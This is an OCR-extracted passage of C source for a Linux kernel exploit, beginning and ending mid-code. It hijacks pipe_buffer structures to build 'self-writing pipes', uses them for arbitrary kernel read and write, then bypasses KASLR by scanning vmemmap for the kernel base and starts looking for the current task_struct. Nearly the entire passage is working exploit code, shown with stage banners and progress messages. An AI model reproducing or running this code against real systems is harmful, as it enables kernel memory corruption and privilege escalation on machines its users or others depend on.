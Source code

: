 ```
 hijacking the 4th pipe_buffer on page to itself...");    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;    write(pipe_fd[snd_vicitm_pid][1],buf,TRD_PIPE_BUF_SZ-sizeof(evil_pipe_buf));    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));    /* check for third-level victim pipe */    for (int i = 0; i < PIPE_SPRAY_NR; i++) {        if (i == victim_qidx) {            continue;        }        if (i == orig_pid || i == victim_pid             || i == snd_orig_pid || i == snd_vicitm_pid            || i == self_2nd_pipe_pid || i== self_3rd_pipe_pid) {            continue;        }        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));        if (page_ptr == evil_pipe_buf.page) {            self_4th_pipe_pid = i;            printf("\033[32m\033[1m[+] Found another self-writing pipe:\033[0m"                    "%d\n", self_4th_pipe_pid);            break;        }    }    if (self_4th_pipe_pid == -1) {        err_exit("FAILED to build a self-writing pipe!");    }    puts("");}struct pipe_buffer evil_2nd_buf, evil_3rd_buf, evil_4th_buf;char temp_zero_buf[0x1000]= { '\0' };/** * @brief Setting up 3 pipes for arbitrary read & write. * We need to build a circle there for continuously memory seeking: * - 2nd pipe to search * - 3rd pipe to change 4th pipe * - 4th pipe to change 2nd and 3rd pipe */void setup_evil_pipe(void){    /* init the initial val for 2nd,3rd and 4th pipe, for recovering only */    memcpy(&evil_2nd_buf, &info_pipe_buf, sizeof(evil_2nd_buf));    memcpy(&evil_3rd_buf, &info_pipe_buf, sizeof(evil_3rd_buf));    memcpy(&evil_4th_buf, &info_pipe_buf, sizeof(evil_4th_buf));    evil_2nd_buf.offset = 0;    evil_2nd_buf.len = 0xff0;    /* hijack the 3rd pipe pointing to 4th */    evil_3rd_buf.offset = TRD_PIPE_BUF_SZ * 3;    evil_3rd_buf.len = 0;    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));    evil_4th_buf.offset = TRD_PIPE_BUF_SZ;    evil_4th_buf.len = 0;}void arbitrary_read_by_pipe(struct page *page_to_read, void *dst){    /* page to read */    evil_2nd_buf.offset = 0;    evil_2nd_buf.len = 0xfff;    evil_2nd_buf.page = page_to_read;    /* hijack the 4th pipe pointing to 2nd pipe */    write(pipe_fd[self_3rd_pipe_pid][1], &evil_4th_buf, sizeof(evil_4th_buf));    /* hijack the 2nd pipe for arbitrary read */    write(pipe_fd[self_4th_pipe_pid][1], &evil_2nd_buf, sizeof(evil_2nd_buf));    write(pipe_fd[self_4th_pipe_pid][1],           temp_zero_buf,           TRD_PIPE_BUF_SZ-sizeof(evil_2nd_buf));    /* hijack the 3rd pipe to point to 4th pipe */    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));    /* read out data */    read(pipe_fd[self_2nd_pipe_pid][0], dst, 0xff0);}void arbitrary_write_by_pipe(struct page *page_to_write, void *src, size_t len){    /* page to write */    evil_2nd_buf.page = page_to_write;    evil_2nd_buf.offset = 0;    evil_2nd_buf.len = 0;    /* hijack the 4th pipe pointing to 2nd pipe */    write(pipe_fd[self_3rd_pipe_pid][1], &evil_4th_buf, sizeof(evil_4th_buf));    /* hijack the 2nd pipe for arbitrary read, 3rd pipe point to 4th pipe */    write(pipe_fd[self_4th_pipe_pid][1], &evil_2nd_buf, sizeof(evil_2nd_buf));    write(pipe_fd[self_4th_pipe_pid][1],           temp_zero_buf,           TRD_PIPE_BUF_SZ - sizeof(evil_2nd_buf));    /* hijack the 3rd pipe to point to 4th pipe */    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));    /* write data into dst page */    write(pipe_fd[self_2nd_pipe_pid][1], src, len);}/** * VII - FINAL exploit stage with arbitrary read & write*/size_t *tsk_buf, current_task_page, current_task, parent_task, buf[0x8000];void info_leaking_by_arbitrary_pipe(){    size_t *comm_addr;    int try_times;    puts("\n\033[34m\033[1m"         "Stage V - Leaking info by arbitrary read & write"         "\033[0m\n");    memset(buf, 0, sizeof(buf));    puts("
 Setting up kernel arbitrary read & write...");    setup_evil_pipe();    /**     * KASLR's granularity is 256MB, and pages of size 0x1000000 is 1GB MEM,     * so we can simply get the vmemmap_base like this in a SMALL-MEM env.     * For MEM > 1GB, we can just find the secondary_startup_64 func ptr,     * which is located on physmem_base + 0x9d000, i.e., vmemmap_base[156] page.     * If the func ptr is not there, just vmemmap_base -= 256MB and do it again.     */    vmemmap_base = (size_t) info_pipe_buf.page & 0xfffffffff0000000;    try_times = 0;    for (;;) {        printf("
 Checking whether the %lx is vmemmap_base..\n",vmemmap_base);        arbitrary_read_by_pipe((struct page*) (vmemmap_base + 157 * 0x40), buf);        printf("[?] Get possible data: %lx\n", buf[0]);        if (buf[0] == 0x2400000000) {            err_exit("READING FAILED FOR UNKNOWN REASON!");        }        if (buf[0] > 0xffffffff81000000 && ((buf[0] & 0xfff) == 0x030)) {            kernel_base = buf[0] -  0x030;            kernel_offset = kernel_base - 0xffffffff81000000;            printf("\033[32m\033[1m[+] Found kernel base: \033[0m0x%lx\n"                   "\033[32m\033[1m[+] Kernel offset: \033[0m0x%lx\n",                    kernel_base, kernel_offset);            break;        }        try_times++;        if (try_times == 5) {            vmemmap_base -= 0x10000000;            try_times = 0;        }    }    printf("\033[32m\033[1m[+] vmemmap_base:\033[0m 0x%lx\n\n", vmemmap_base);    /* now seeking for the task_struct in kernel memory */    puts("
```